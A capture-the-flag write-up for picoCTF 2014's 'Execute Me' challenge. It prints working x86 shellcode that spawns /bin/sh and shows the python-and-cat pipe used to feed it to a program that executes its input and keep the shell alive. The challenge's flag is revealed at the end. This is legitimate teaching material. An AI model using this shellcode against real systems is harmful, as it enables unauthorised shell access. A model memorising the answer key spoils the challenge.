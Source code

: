## Execute Me - 80 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-09 13:07:47

Last modified: 2014-11-10 00:27:40

### Problem ###

This program will run whatever you send to it! Try to get the flag! The binary can be found at `/home/execute/` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/ExecuteMe/execute.c).

### Hint ###

You can get the flag in a number of ways, but the easiest would be to run a shell.

## Answer ##

### Overview ###

Use the program to execute some shellcode.

### Details ###

Let's start by running the program on the server. When we run it and enter `/bin/sh` the following appears:

```bash
pico89244@shell:~$ cd /home/execute/
pico89244@shell:/home/execute$ ./execute
/bin/sh
Segmentation fault (core dumped)
pico89244@shell:/home/execute$
```

Huh, that's not good. Looking a little closer at the code we see this:
```c
read(0, buf, 128);
((function_ptr)buf)();
```
So the program reads in our buffer and executes it. However, it is not executing the buffer as we would expect, with the `system()` command to run a command in the shell. Instead, it is executing the **assembly commands** that we put in the buffer. The hint tells us to run a shell, so we should use `shellcode`. Shellcode typically is in the form of a bunch of hex values that can be executed to perform a function such as running `cat` or `/bin/sh`. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use [this shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run `execve("/bin/sh")`
```bash
pico89244@shell:/home/execute$ ./execute
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
Segmentation fault (core dumped)
pico89244@shell:/home/execute$

```
Huh, that still didn't work. Our next task is to `pipe` the hex values into the program instead of type them in. Right now, the program interprets `\x31`as 4 separate ascii values instead of ascii value `0x31` (or 49 in base 10). To do this we can use Python:
```bash
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'") | ./execute
pico89244@shell:/home/execute$
```
This uses Python to print our hex characters into the program. Note the use of a `"` to encapsulate the Python code  and the `'` to encapsulate the `print` command. This time, we get no error but still no shell! The shell is successfully running with this shellcode but is exiting before we can input anything into it. The final step here is to add a `cat` to the end of our Python command, which prevents this.
```
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
whoami
pico89244
cat flag.txt
shellcode_is_kinda_cool
```
Our shell runs successfully and we get our flag!
### Flag ###

    shellcode_is_kinda_cool

